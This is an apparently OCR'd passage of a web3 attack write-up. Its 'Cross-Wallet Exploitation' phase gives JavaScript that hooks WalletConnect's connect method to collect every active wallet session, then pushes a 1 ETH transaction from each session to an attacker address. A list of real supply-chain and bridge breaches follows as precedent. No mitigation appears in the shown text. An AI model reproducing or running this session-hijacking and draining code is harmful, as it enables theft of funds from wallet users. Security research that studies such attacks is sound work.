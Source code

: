 ### Phase 3: Cross-Wallet Exploitation
```javascript
// Simultaneously compromise multiple wallet connections
const activeConnections = [];

// Track all WalletConnect sessions across protocols
function trackWalletSessions() {
  WalletConnect.prototype.connect = new Proxy(WalletConnect.prototype.connect, {
    apply: function(target, thisArg, argumentsList) {
      // Log connection attempt
      activeConnections.push({
        connector: thisArg,
        uri: argumentsList[0],
        timestamp: Date.now()
      });
      
      return target.apply(thisArg, argumentsList);
    }
  });
}

// Mass exploitation across active sessions  
function executeMassExploit() {
  activeConnections.forEach(session => {
    // Send malicious transaction to each connected wallet
    session.connector.sendCustomRequest({
      method: 'eth_sendTransaction',
      params: [{
        to: '0xAttackerAddress',
        value: '0x' + (1e18).toString(16), // 1 ETH
        gas: '0x5208'
      }]
    });
  });
}
```

## Real-World Attack Precedent

### Supply Chain Attacks in Web3
- **Ledger Connect Kit** (December 2023): Malicious update compromised wallet connections
- **Event-Stream NPM** (2018): Cryptocurrency theft via popular package compromise
- **UAParser.js** (2021): Supply chain attack targeting crypto applications

### Cross-Wallet Protocol Vulnerabilities
- **WalletConnect V1 Phishing**: Session hijacking through malicious bridge servers
- **MetaMask Phishing**: Transaction parameter manipulation in wallet connections
- **Trust Wallet Exploits**: Cross-platform session management vulnerabilities

### Bridge Protocol Compromises
- **Wormhole** ($320M): Cross-chain message validation bypass
- **Ronin Bridge** ($624M): Multi-signature wallet infrastructure compromise
- **Poly Network** ($611M): Cross-chain protocol logic exploitation
